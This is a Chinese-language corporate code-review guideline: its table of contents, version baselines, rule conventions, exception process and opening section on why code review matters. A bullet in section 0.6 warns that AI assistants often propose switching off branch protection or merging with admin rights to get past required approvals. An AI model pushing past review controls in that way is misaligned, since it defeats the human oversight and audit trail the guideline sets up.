




+++
date = '2025-10-31T00:00:00+08:00'
draft = false
title = 'code review 指引'
tags = ['指引', '設計開發']
categories = ['指引']
+++

# Code Review 指引

> **企業標準技術白皮書｜版本 v3.0｜2026-10-08**
>
> 適用範圍：使用 GitHub（github.com、GitHub Enterprise Cloud、GitHub Enterprise Server）或 GitLab（GitLab.com、Self-Managed、Dedicated）管理原始碼，以 Java／Spring Boot 為後端、以 Vue／TypeScript／Tailwind CSS 為前端、以關聯式資料庫為儲存的企業應用系統。本指引規範程式碼審查（Code Review）的流程、角色、審查重點、平台設定與度量方式：每一條規則都說明要做到什麼、附有正確與錯誤的範例，並說明審查者要用什麼工具或方法確認。
>
> v3.0 全面改寫 v2.0：依 Google Engineering Practices、IEEE 1028-2008、ISO/IEC 20246:2017、NIST SP 800-218 SSDF、OWASP ASVS 5.0、OWASP Top 10:2025、SLSA v1.2 Source Track、ISO/IEC 27001:2022 與 DORA 2025 重新組織內容，並新增「AI 輔助審查與審查 AI 產出」一章。每條規則都附有範例與「驗證方式」，每節結尾都有「🔍 審查與驗證」，讓審查者能判斷 AI 或同事產出的程式碼與審查意見是否正確。範例均經工具實測（見 [附錄 F](#附錄-f-修訂紀錄與查證紀錄)）。各技術領域的完整寫作規範請見 [程式寫作指引]()、[安全程式碼指引]() 與 [測試與品質保證指引]()；本文從「審查」的角度把它們串成一套可執行的流程。

## 目錄

<!-- TOC-AUTO-BEGIN -->

- [0. 文件資訊](#0-文件資訊)
  - [0.1 文件目的與讀者](#01-文件目的與讀者)
  - [0.2 技術基準版本](#02-技術基準版本)
  - [0.3 規範等級與規則格式](#03-規範等級與規則格式)
  - [0.4 與其他指引的關係](#04-與其他指引的關係)
  - [0.5 如何閱讀本指引](#05-如何閱讀本指引)
  - [0.6 例外與豁免流程](#06-例外與豁免流程)
- [1. Code Review 的目的、治理與國際標準](#1-code-review-的目的治理與國際標準)
  - [1.1 為什麼要做程式碼審查](#11-為什麼要做程式碼審查)
  - [1.2 審查的類型與選擇](#12-審查的類型與選擇)
  - [1.3 國際標準與法規對照](#13-國際標準與法規對照)
  - [1.4 審查的範圍與限制](#14-審查的範圍與限制)
- [2. 角色與責任](#2-角色與責任)
  - [2.1 角色定義與責任分工](#21-角色定義與責任分工)
  - [2.2 審查者的資格與指派](#22-審查者的資格與指派)
- [3. 審查流程與服務水準](#3-審查流程與服務水準)
  - [3.1 審查生命週期](#31-審查生命週期)
  - [3.2 回應時限與服務水準](#32-回應時限與服務水準)
  - [3.3 審查輪次與核准失效](#33-審查輪次與核准失效)
  - [3.4 風險分級與核准人數](#34-風險分級與核准人數)
  - [3.5 同步審查、走查與正式檢查](#35-同步審查走查與正式檢查)
  - [3.6 合併與合併後](#36-合併與合併後)
- [4. 作者：準備可審查的變更](#4-作者準備可審查的變更)
  - [4.1 小而聚焦的變更](#41-小而聚焦的變更)
  - [4.2 撰寫 PR／MR 描述](#42-撰寫-prmr-描述)
  - [4.3 提交訊息](#43-提交訊息)
  - [4.4 送審前的自我審查](#44-送審前的自我審查)
  - [4.5 草稿 PR 與堆疊 PR](#45-草稿-pr-與堆疊-pr)
  - [4.6 回應審查意見](#46-回應審查意見)
- [5. 審查者：如何審查](#5-審查者如何審查)
  - [5.1 審查前的準備](#51-審查前的準備)
  - [5.2 閱讀順序](#52-閱讀順序)
  - [5.3 檢查什麼：依重要性排序](#53-檢查什麼依重要性排序)
  - [5.4 審查的節奏與時間](#54-審查的節奏與時間)
  - [5.5 在本機驗證](#55-在本機驗證)
  - [5.6 核准標準](#56-核准標準)
- [6. 審查意見的撰寫與溝通](#6-審查意見的撰寫與溝通)
  - [6.1 意見分級：讓作者知道哪些必須處理](#61-意見分級讓作者知道哪些必須處理)
  - [6.2 好意見的結構](#62-好意見的結構)
  - [6.3 語氣與溝通](#63-語氣與溝通)
  - [6.4 意見的記錄與追蹤](#64-意見的記錄與追蹤)
- [7. 審查重點：設計與架構](#7-審查重點設計與架構)
  - [7.1 設計審查與架構決策紀錄](#71-設計審查與架構決策紀錄)
  - [7.2 職責與模組邊界](#72-職責與模組邊界)
  - [7.3 簡單與適度：避免過度設計與重複造輪子](#73-簡單與適度避免過度設計與重複造輪子)
  - [7.4 一致性：遵循既有的慣例](#74-一致性遵循既有的慣例)
- [8. 審查重點：功能正確性與錯誤處理](#8-審查重點功能正確性與錯誤處理)
  - [8.1 需求符合度與邊界條件](#81-需求符合度與邊界條件)
  - [8.2 輸入契約](#82-輸入契約)
  - [8.3 錯誤處理](#83-錯誤處理)
  - [8.4 空值與 Optional](#84-空值與-optional)
  - [8.5 併發與交易](#85-併發與交易)
  - [8.6 資源管理](#86-資源管理)
  - [8.7 金額、時間與數值](#87-金額時間與數值)
- [9. 審查重點：可讀性與可維護性](#9-審查重點可讀性與可維護性)
  - [9.1 命名](#91-命名)
  - [9.2 複雜度](#92-複雜度)
  - [9.3 重複程式碼](#93-重複程式碼)
  - [9.4 註解與文件](#94-註解與文件)
  - [9.5 技術債與範圍控制](#95-技術債與範圍控制)
- [10. 審查重點：測試](#10-審查重點測試)
  - [10.1 測試是否存在、是否在正確的層級](#101-測試是否存在是否在正確的層級)
  - [10.2 測試的品質：程式壞掉時會失敗嗎](#102-測試的品質程式壞掉時會失敗嗎)
  - [10.3 覆蓋率作為門檻，而不是目標](#103-覆蓋率作為門檻而不是目標)
  - [10.4 測試的穩定性與可維護性](#104-測試的穩定性與可維護性)
- [11. 審查重點：安全](#11-審查重點安全)
  - [11.1 安全審查的範圍與方法](#111-安全審查的範圍與方法)
  - [11.2 輸入驗證與輸出編碼](#112-輸入驗證與輸出編碼)
  - [11.3 注入](#113-注入)
  - [11.4 身分驗證與授權](#114-身分驗證與授權)
  - [11.5 秘密、敏感資料與日誌](#115-秘密敏感資料與日誌)
  - [11.6 密碼學](#116-密碼學)
  - [11.7 OWASP Top 10:2025 審查對照](#117-owasp-top-102025-審查對照)
- [12. 審查重點：效能與資源](#12-審查重點效能與資源)
  - [12.1 資料庫存取：N+1 與查詢次數](#121-資料庫存取n1-與查詢次數)
  - [12.2 無上限的查詢與分頁](#122-無上限的查詢與分頁)
  - [12.3 快取](#123-快取)
  - [12.4 外部呼叫：逾時與重試](#124-外部呼叫逾時與重試)
  - [12.5 效能宣稱需要證據](#125-效能宣稱需要證據)
- [13. 審查重點：資料庫與資料遷移](#13-審查重點資料庫與資料遷移)
  - [13.1 遷移腳本的管理](#131-遷移腳本的管理)
  - [13.2 向後相容：擴充與收縮](#132-向後相容擴充與收縮)
  - [13.3 鎖與線上變更](#133-鎖與線上變更)
  - [13.4 新查詢與索引](#134-新查詢與索引)
- [14. 審查重點：前端、UI 與無障礙](#14-審查重點前端ui-與無障礙)
  - [14.1 TypeScript 與 lint 設定](#141-typescript-與-lint-設定)
  - [14.2 元件設計、狀態與非同步](#142-元件設計狀態與非同步)
  - [14.3 無障礙（WCAG 2.2）](#143-無障礙wcag-22)
  - [14.4 前端測試](#144-前端測試)
  - [14.5 UI 變更的審查](#145-ui-變更的審查)
- [15. 審查重點：設定、CI／CD 與相依套件](#15-審查重點設定cicd-與相依套件)
  - [15.1 應用程式設定](#151-應用程式設定)
  - [15.2 相依套件](#152-相依套件)
  - [15.3 CI／CD 工作流程](#153-cicd-工作流程)
  - [15.4 容器與基礎設施即程式碼](#154-容器與基礎設施即程式碼)
- [16. 審查重點：API 相容性與文件](#16-審查重點api-相容性與文件)
  - [16.1 API 契約與破壞性變更](#161-api-契約與破壞性變更)
  - [16.2 文件與變更紀錄](#162-文件與變更紀錄)
- [17. 自動化與品質閘門](#17-自動化與品質閘門)
  - [17.1 品質閘門清單](#171-品質閘門清單)
  - [17.2 GitHub Actions 範例](#172-github-actions-範例)
  - [17.3 GitLab CI 範例](#173-gitlab-ci-範例)
  - [17.4 SonarQube 設定](#174-sonarqube-設定)
  - [17.5 工具警告的抑制](#175-工具警告的抑制)
  - [17.6 審查輔助工具](#176-審查輔助工具)
- [18. 平台設定：GitHub 與 GitLab](#18-平台設定github-與-gitlab)
  - [18.1 平台功能對照](#181-平台功能對照)
  - [18.2 GitHub：Rulesets](#182-githubrulesets)
  - [18.3 GitHub：CODEOWNERS](#183-githubcodeowners)
  - [18.4 GitLab：核准設定與受保護分支](#184-gitlab核准設定與受保護分支)
  - [18.5 GitLab：CODEOWNERS 區段](#185-gitlabcodeowners-區段)
  - [18.6 範本與自動化設定](#186-範本與自動化設定)
- [19. AI 輔助審查與審查 AI 產出](#19-ai-輔助審查與審查-ai-產出)
  - [19.1 原則：人對合併負責](#191-原則人對合併負責)
  - [19.2 AI 審查工具的選擇](#192-ai-審查工具的選擇)
  - [19.3 AI 審查工具的安全](#193-ai-審查工具的安全)
  - [19.4 處理 AI 審查意見](#194-處理-ai-審查意見)
  - [19.5 審查 AI 產生的程式碼](#195-審查-ai-產生的程式碼)
- [20. 特殊情境](#20-特殊情境)
  - [20.1 緊急修正](#201-緊急修正)
  - [20.2 大型重構](#202-大型重構)
  - [20.3 自動產生的程式碼與機器人 PR](#203-自動產生的程式碼與機器人-pr)
  - [20.4 第三方程式碼與授權](#204-第三方程式碼與授權)
  - [20.5 跨團隊變更](#205-跨團隊變更)
  - [20.6 正式環境的資料修正](#206-正式環境的資料修正)
- [21. 意見衝突與團隊文化](#21-意見衝突與團隊文化)
  - [21.1 意見分歧的處理](#211-意見分歧的處理)
  - [21.2 心理安全與行為準則](#212-心理安全與行為準則)
  - [21.3 建立審查文化](#213-建立審查文化)
- [22. 度量與持續改善](#22-度量與持續改善)
  - [22.1 度量的原則](#221-度量的原則)
  - [22.2 收集方式](#222-收集方式)
  - [22.3 回顧與改善](#223-回顧與改善)
- [23. 培訓與導入](#23-培訓與導入)
  - [23.1 導入路線圖](#231-導入路線圖)
  - [23.2 審查者培訓](#232-審查者培訓)
  - [23.3 審查校準](#233-審查校準)
- [附錄 A 規則總表](#附錄-a-規則總表)
  - [A.1 依領域統計](#a1-依領域統計)
  - [A.2 驗證方式與範例覆蓋](#a2-驗證方式與範例覆蓋)
  - [A.3 規則清單](#a3-規則清單)
- [附錄 B 檢查清單與範本](#附錄-b-檢查清單與範本)
  - [B.1 作者送審前自我檢查](#b1-作者送審前自我檢查)
  - [B.2 審查者檢查清單](#b2-審查者檢查清單)
  - [B.3 快速參考卡](#b3-快速參考卡)
  - [B.4 IDE 設定](#b4-ide-設定)
- [附錄 C 工具設定與腳本](#附錄-c-工具設定與腳本)
  - [C.1 CODEOWNERS 檢查腳本](#c1-codeowners-檢查腳本)
  - [C.2 審查度量報表](#c2-審查度量報表)
  - [C.3 審查提醒](#c3-審查提醒)
  - [C.4 PR 衛生檢查](#c4-pr-衛生檢查)
  - [C.5 審查意見標籤統計](#c5-審查意見標籤統計)
  - [C.6 Checkstyle 與 PMD 設定](#c6-checkstyle-與-pmd-設定)
- [附錄 D 術語表與常用審查用語](#附錄-d-術語表與常用審查用語)
  - [D.1 術語表](#d1-術語表)
  - [D.2 常用英文審查用語](#d2-常用英文審查用語)
- [附錄 E 參考資料](#附錄-e-參考資料)
  - [E.1 標準與框架](#e1-標準與框架)
  - [E.2 業界實務與研究](#e2-業界實務與研究)
  - [E.3 平台與工具文件](#e3-平台與工具文件)
  - [E.4 延伸閱讀](#e4-延伸閱讀)
- [附錄 F 修訂紀錄與查證紀錄](#附錄-f-修訂紀錄與查證紀錄)
  - [F.1 v2.0 與 v3.0 章節對照](#f1-v20-與-v30-章節對照)
  - [F.2 v2.0 錯誤修正紀錄](#f2-v20-錯誤修正紀錄)
  - [F.3 查證紀錄](#f3-查證紀錄)
  - [F.4 待查證與後續更新](#f4-待查證與後續更新)
  - [F.5 版本紀錄](#f5-版本紀錄)

<!-- TOC-AUTO-END -->

## 0. 文件資訊

### 0.1 文件目的與讀者

程式碼審查是軟體團隊最常執行、也最容易流於形式的品質活動。一個 Pull Request（GitHub）或 Merge Request（GitLab）被按下「Approve」，可能代表審查者逐行讀過、在本機執行過測試；也可能只代表審查者看了標題，覺得「應該沒問題」。兩者在平台上看起來完全一樣，差別要等到上線後才會顯現。

AI 程式碼助理讓這個問題更嚴重。開發者一天能產出的程式碼量大幅增加，但審查者的時間沒有變多；AI 產生的程式碼通常「看起來很合理」，卻可能藏有不存在的 API、遺漏的授權檢查或只在特定資料下才會出現的錯誤。研究顯示，大型語言模型在需要選擇安全或不安全寫法的任務中，約有 45% 選擇了不安全的寫法（Veracode，2025）。在 AI 大量產生程式碼的時代，**審查是人類對程式碼負責的最後一道關卡**。

本指引有三個目的：

1. **定義標準**：把「審查」拆成可以檢查的規則，讓每次核准都代表同樣的意義。
2. **教會做法**：每條規則都附有正確與錯誤的範例，並說明理由，讓第一次擔任審查者的人也能照著做。
3. **讓人能審查 AI 產出**：無論程式碼是同事寫的、AI 寫的，或審查意見本身是 AI 產生的，審查者都能依本指引判斷是否正確，並知道要用什麼工具驗證。

| 讀者 | 主要用途 | 建議閱讀章節 |
| --- | --- | --- |
| 開發者（作為作者） | 準備容易審查的變更、回應意見 | 第 4、6 章、附錄 B.1 |
| 開發者（作為審查者） | 審查方法、檢查重點、撰寫意見 | 第 5–16 章、附錄 B.2 |
| 技術主管、架構師 | 設計流程、決定核准規則、處理爭議 | 第 1–3、7、20、21 章 |
| DevOps、平台工程師 | 設定分支保護、CODEOWNERS、CI 品質閘門 | 第 17、18 章、附錄 C |
| 資安人員、稽核人員 | 確認審查控制有效、對照標準 | 第 1、11、18、22 章 |
| 使用 AI 程式碼助理的人 | 審查 AI 產生的程式碼、設定 AI 審查工具 | 第 19 章 |
| 工程經理 | 度量、導入、培訓 | 第 22、23 章 |

### 0.2 技術基準版本

本指引的範例與規則以下列版本為準（查證日期 2026-10-08）。平台功能會持續變動；採用本文的設定前，請先依 [附錄 F](#附錄-f-修訂紀錄與查證紀錄) 的方法確認所使用的版本是否支援。

| 類別 | 項目 | 基準版本 | 說明 |
| --- | --- | --- | --- |
| 平台 | GitHub.com／GitHub Enterprise Cloud | 2026-10 | Rulesets、merge queue、Copilot code review |
| 平台 | GitHub Enterprise Server | 3.22（支援中：3.18–3.22） | 部分功能比 github.com 晚推出，以該版本文件為準 |
| 平台 | GitLab（GitLab.com、Self-Managed、Dedicated） | 19.4 | Approval rules、CODEOWNERS sections、merge trains 需 Premium 以上 |
| 命令列 | GitHub CLI（`gh`）／GitLab CLI（`glab`） | 2.102.0／1.121.0 | 附錄 C 的腳本使用 |
| 語言與框架 | Java／Spring Boot | 25（LTS）／4.1.1 | 與 [程式寫作指引]() 相同 |
| 前端 | Vue／TypeScript | 3.5／7.0 | typescript-eslint 8.71 要求 TypeScript < 6.1，lint 與 vue-tsc 以 `@typescript/typescript6` 執行（見附錄 F.3） |
| 靜態分析 | Checkstyle／PMD／SpotBugs | 14.3／7.28／4.10.4 | 規則名稱以實測版本為準 |
| 靜態分析 | ESLint／typescript-eslint | 10.12／8.71 | ESLint 10 已移除 `.eslintrc` 格式 |
| 品質平台 | SonarQube Server／Community Build | 2026.5／26.9 | 參數 `sonar.token` 取代已淘汰的 `sonar.login` |
| 安全 | Gitleaks／Semgrep | 8.30.1／1.180 | |
| CI | GitHub Actions：`actions/checkout`／`actions/setup-java` | v7／v6 | `actionlint` 1.7.12 驗證 |
| AI 審查 | GitHub Copilot code review／GitLab Duo Code Review／Claude Code Code Review | 2026-10 | 功能、計費與限制見第 19 章 |

| 類別 | 標準或文件 | 版本 | 本指引對應章節 |
| --- | --- | --- | --- |
| 審查程序 | IEEE 1028（Software Reviews and Audits） | 2008（2019 起列為 Inactive-Reserved，仍廣泛引用） | 1.3、3 |
| 工作產品審查 | ISO/IEC 20246（Work product reviews） | 2017（2022 確認） | 1.3、3、5 |
| 生命週期流程 | ISO/IEC/IEEE 12207 | 2017 | 1.3 |
| 產品品質模型 | ISO/IEC 25010 | 2023 | 5.3、7–16 |
| 安全軟體開發 | NIST SP 800-218 SSDF | 1.1（1.2 草案 2025-12） | 1.3、11 |
| 應用程式安全 | OWASP ASVS／Top 10 | 5.0.0／2025 | 11 |
| 供應鏈 | SLSA Source Track | v1.2（2025-11） | 1.3、18 |
| 資訊安全管理 | ISO/IEC 27001／27002 | 2022 | 1.3 |
| 交付績效 | DORA 指標 | 2025 | 22 |
| 業界實務 | Google Engineering Practices — Code Review | 2024-09（最後更新） | 3–6 |
| 意見格式 | Conventional Comments | 現行版 | 6 |
| 提交訊息 | Conventional Commits | 1.0.0 | 4 |

### 0.3 規範等級與規則格式

本文規則採用 [RFC 2119](https://www.rfc-editor.org/rfc/rfc2119) 與 [RFC 8174](https://www.rfc-editor.org/rfc/rfc8174) 的語意：

| 等級 | 英文 | 意義 | 不遵守時的處理 |
| --- | --- | --- | --- |
| **必須** | MUST | 不遵守會讓審查失去控制效果，或直接造成缺陷 | 不得合併；如需例外必須走 0.6 豁免流程 |
| **應該** | SHOULD | 業界共識的最佳實務，除非有充分理由 | 不遵守時必須在 PR／MR 說明理由 |
| **可以** | MAY | 建議做法，依團隊規模與風險選用 | 不阻擋 |
| **不應該** | SHOULD NOT | 通常是錯誤的做法，除非有充分理由 | 採用時必須在 PR／MR 說明理由與替代控制 |

每條規則都有編號，格式為 `CR-<領域>-<三位數序號>`（CR = Code Review）。開頭的 `CR` 用來和其他指引的規則區分，例如安全程式碼指引的 `SCG-SQL-001`、測試指引的 `QA-UNT-001`。編號一經發布不會重編，新增規則使用該領域尚未使用的號碼。

| 前綴 | 領域 | 章 | 前綴 | 領域 | 章 |
| --- | --- | --- | --- | --- | --- |
| `CR-GOV` | 目的、治理與國際標準 | 1 | `CR-PRF` | 效能與資源 | 12 |
| `CR-ROLE` | 角色與責任 | 2 | `CR-DB` | 資料庫與資料遷移 | 13 |
| `CR-PRC` | 審查流程與服務水準 | 3 | `CR-FE` | 前端、UI 與無障礙 | 14 |
| `CR-AUT` | 作者：準備可審查的變更 | 4 | `CR-CFG` | 設定、IaC 與相依套件 | 15 |
| `CR-REV` | 審查者：如何審查 | 5 | `CR-API` | API 相容性與文件 | 16 |
| `CR-CMT` | 審查意見與溝通 | 6 | `CR-AUTO` | 自動化與品質閘門 | 17 |
| `CR-DES` | 設計與架構 | 7 | `CR-GH`／`CR-GL` | GitHub／GitLab 平台設定 | 18 |
| `CR-COR` | 功能正確性與錯誤處理 | 8 | `CR-AI` | AI 輔助審查與審查 AI 產出 | 19 |
| `CR-MNT` | 可讀性與可維護性 | 9 | `CR-SPC` | 特殊情境 | 20 |
| `CR-TST` | 測試 | 10 | `CR-CUL` | 意見衝突與團隊文化 | 21 |
| `CR-SEC` | 安全 | 11 | `CR-MET`／`CR-IMP` | 度量與持續改善／培訓與導入 | 22／23 |

**驗證方式欄位：** 每張規則表的最後一欄說明「怎麼確認有遵守這條規則」。審查者應先看這一欄，再決定要花多少心力人工檢查。

| 圖示 | 意義 | 範例 | 審查者該做什麼 |
| --- | --- | --- | --- |
| 🤖 | 工具或平台設定可自動檢查 | 🤖 分支保護、🤖 PMD `AvoidCatchingGenericException`、🤖 actionlint | 確認 CI 或平台設定有啟用，且沒有被停用或略過 |
| 🧪 | 需要以測試或演練證明 | 🧪 單元測試、🧪 以測試 PR 驗證規則 | 確認有對應的測試，而且違反規則時測試會失敗 |
| 👁 | 只能由人判斷 | 👁 程式碼審查、👁 審查紀錄抽查 | 依該節「🔍 審查與驗證」的問題逐項確認 |

**範例標記：** 範例中以 `✅ <規則編號>` 標示符合規則的寫法，以 `❌ <規則編號>` 標示違規寫法。所有規則都至少出現在一個範例中（統計見 [附錄 A](#附錄-a-規則總表)）。標示「（片段：…）」的範例只截取重點，不是完整可編譯的程式。**❌ 範例只供教學，請勿複製到正式程式碼或設定。**

### 0.4 與其他指引的關係

本指引採「全面自足」的寫法：審查各技術領域時需要的檢查重點都在本文展開，讓審查者不必同時開啟多份文件。各領域的完整規範與深入說明，仍以專門指引為準：

| 主題 | 指引 | 本文的分工 |
| --- | --- | --- |
| 命名、格式、例外處理、日誌等一般寫作規範 | [程式寫作指引]() | 第 8、9 章列出審查時最常發現的問題與工具規則 |
| 安全寫作規則（`SCG-*`） | [安全程式碼指引]() | 第 11 章列出審查重點；該指引第 20 章是安全審查檢查清單 |
| 測試策略、覆蓋率與變異測試的門檻 | [測試與品質保證指引]() | 第 10 章規範審查測試的方法 |
| 架構決策、模組邊界 | [架構設計指引]()、[系統設計指引]() | 第 7 章規範審查時如何發現設計偏離 |
| 資料庫結構與遷移 | [資料庫設計指引]() | 第 13 章 |
| 前端與後端框架實務 | [前端開發指引]()、[後端開發指引]() | 第 14 章、第 8 章 |
| 重構 | [refactor 重構指引]() | 第 20.2 節規範大型重構的審查方式 |
| 開發流程、分支策略、版本發布 | [軟體開發標準程序教學手冊]() | 第 3 章只規範審查在流程中的位置 |

### 0.5 如何閱讀本指引

每一節都依相同的結構撰寫，閱讀與審查時可以直接跳到需要的部分：

1. **概念說明**：為什麼需要這條規則、背後的研究或標準。
2. **規則表**：編號、等級、規則內容、驗證方式。
3. **範例**：❌ 常見錯誤與 ✅ 正確做法，範例中標註規則編號。
4. **🔍 審查與驗證**：自動檢查方式、人工審查問題、AI 常見錯誤。

第一次導入時，建議依下列順序進行：



### 0.6 例外與豁免流程

規則不可能涵蓋所有情境。專案無法遵守某條「必須」規則時，依下列流程申請豁免，**不得**以關閉分支保護、以管理員權限略過審查或直接忽略的方式處理：

1. 在專案的例外清單（建議放在程式庫的 `docs/review-exceptions.md`）寫明豁免的規則編號、適用範圍、原因、替代控制措施與到期日。
2. 由技術主管核准；涉及 `CR-SEC-*`、`CR-GH-*`、`CR-GL-*` 的豁免還需資安負責人核准，並記錄核准人與日期。
3. 例外清單本身必須由 CODEOWNERS 保護（見 `CR-GH-003`、`CR-GL-003`），避免作者自行新增例外。
4. 到期前重新評估；到期未處理的例外視為缺陷，列入下一個迭代處理。

```markdown
<!-- docs/review-exceptions.md -->
# CR-EX-2026-004 豁免 CR-PRC-004：legacy-batch 專案暫時只要求一位核准者

- 狀態：approved（有效至 2027-03-31）
- 豁免規則：CR-PRC-004（高風險變更需兩位核准者）
- 適用範圍：legacy-batch 程式庫的 main 分支
- 原因：團隊目前只有兩位熟悉 COBOL 轉 Java 程式的成員，其中一位是作者時無法湊到兩位核准者。
- 替代控制：每週由架構師抽查已合併的高風險 PR；所有 PR 必須通過完整回歸測試。
- 核准：技術主管 陳大文、資安負責人 王小明，2026-10-08
```

#### 🔍 0.6 審查與驗證

- **自動檢查：** 每季以 GitHub 的「Rule insights」（Rulesets 的略過紀錄）或 GitLab 的稽核事件（Audit events）列出所有略過保護規則的合併，逐筆對照例外清單。
- **人工審查問題：**
  1. 例外的「替代控制」是否真的存在，而且有人在執行？
  2. 例外的範圍是否最小（單一程式庫、單一分支），而不是整個組織？
  3. 例外是否有到期日？已到期的例外是否已處理？
- **AI 常見錯誤：** AI 助理遇到「需要兩位核准者」或「CODEOWNERS 未核准」導致無法合併時，常建議「暫時關閉分支保護」或「用管理員權限合併」。這兩種做法都必須走豁免流程，不能當成一般操作。

## 1. Code Review 的目的、治理與國際標準

### 1.1 為什麼要做程式碼審查

程式碼審查的價值遠超過「找 bug」。微軟研究院在 2013 年訪談與調查開發者後發現，大家**期望**審查能找出缺陷，但審查**實際**帶來的主要成果是知識傳遞、提高團隊對程式碼的共同理解，以及找到更好的替代做法（Bacchelli & Bird, ICSE 2013）。Google 分析約九百萬筆審查紀錄後也得到類似結論：審查的首要目的是**教育與維持程式碼的一致性**，其次才是找出缺陷（Sadowski et al., ICSE-SEIP 2018）。

| 價值 | 說明 | 若沒有審查會發生什麼 |
| --- | --- | --- |
| 找出缺陷 | 邏輯錯誤、邊界條件、併發問題、安全弱點 | 缺陷進入測試或正式環境，修正成本高出數倍 |
| 知識傳遞 | 審查者學到新模組，作者學到更好的寫法 | 「只有某人看得懂」的程式碼越來越多 |
| 一致性 | 程式碼風格、架構慣例、錯誤處理方式一致 | 每個模組各自一套做法，維護成本上升 |
| 共同所有權 | 至少兩個人理解每段程式碼 | 人員異動時無人能接手 |
| 稽核與合規 | 留下「誰寫的、誰核准的、為什麼」的紀錄 | 無法證明變更經過授權（違反 ISO/IEC 27001 A.8.32、SLSA Source L4） |
| 防止內部威脅 | 任何人都無法單獨把程式碼放進正式環境 | 一個被盜用的帳號就能植入後門 |

審查的效果取決於做法。SmartBear 與 Cisco 分析 2,500 次審查、320 萬行程式碼後發現：每次審查 200–400 行、時間不超過 60–90 分鐘時，可以找出 70%–90% 的缺陷；超過這個範圍，審查者找出缺陷的能力明顯下降（第 4.1、5.4 節）。Google 的審查中位延遲則不到 4 小時，小型變更的第一次回應中位數不到 1 小時（第 3.3 節）。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-GOV-001` | 必須 | 所有進入受保護分支（`main`、`release/*`、`hotfix/*`）的變更都必須經過 PR／MR，並至少由一位作者以外的人核准；不得直接推送或由作者自行核准 | 🤖 GitHub Rulesets「Require a pull request before merging」／GitLab 受保護分支＋核准規則；🧪 以測試帳號直接推送必須被拒 |
| `CR-GOV-002` | 必須 | 每個程式庫都必須有書面的審查政策（`CONTRIBUTING.md` 或 `docs/code-review.md`），寫明核准人數、必要審查者、回應時限與合併條件，並與平台設定一致 | 🤖 CI 檢查檔案存在；👁 每季比對文件與平台設定 |

```markdown
<!-- ✅ CR-GOV-002：docs/code-review.md（程式庫的審查政策摘要，其餘引用本指引） -->
# 本程式庫的審查政策

| 項目 | 規定 | 平台設定 |
| --- | --- | --- |
| 受保護分支 | main、release/* | GitHub Ruleset「protect-main」 |
| 核准人數 | 一般變更 1 位；高風險變更 2 位（CR-PRC-004） | Ruleset：required approvals = 1；高風險路徑由 CODEOWNERS 加上第二位 |
| 必要審查者 | 依 .github/CODEOWNERS | Require review from Code Owners = on |
| 新提交後 | 舊的核准失效 | Dismiss stale approvals = on |
| 回應時限 | 1 個工作天內第一次回應（CR-PRC-002） | 每日 09:00 提醒（附錄 C.3） |
| 合併條件 | CI 全部通過、所有討論已解決、無「Request changes」 | Required status checks、Require conversation resolution |
| AI 審查 | Copilot code review 自動執行，**不計入**核准人數（CR-AI-002） | Copilot approvals = off |
```

```text
❌ CR-GOV-001：作者直接推送到 main（分支保護未啟用時的紀錄）
$ git push origin main
To github.com:example/order-service.git
   3f2a1c0..9b8e7d4  main -> main
# 沒有 PR、沒有審查者、沒有 CI 紀錄；事後無法證明這個變更經過任何人確認
```

#### 🔍 1.1 審查與驗證

- **自動檢查：** GitHub 以 `gh api repos/{owner}/{repo}/rules/branches/main` 列出套用在 `main` 的規則，確認包含 `pull_request` 且 `required_approving_review_count` ≥ 1；GitLab 以 `glab api projects/:id/protected_branches` 確認 `push_access_levels` 為「No one」。
- **人工審查問題：**
  1. 政策文件的核准人數、必要審查者與平台設定是否一致？
  2. 管理員是否被列為「可略過（bypass）」的角色？若是，略過紀錄有人檢查嗎？
  3. 「緊急修正」是否另有規定？（見 20.1）
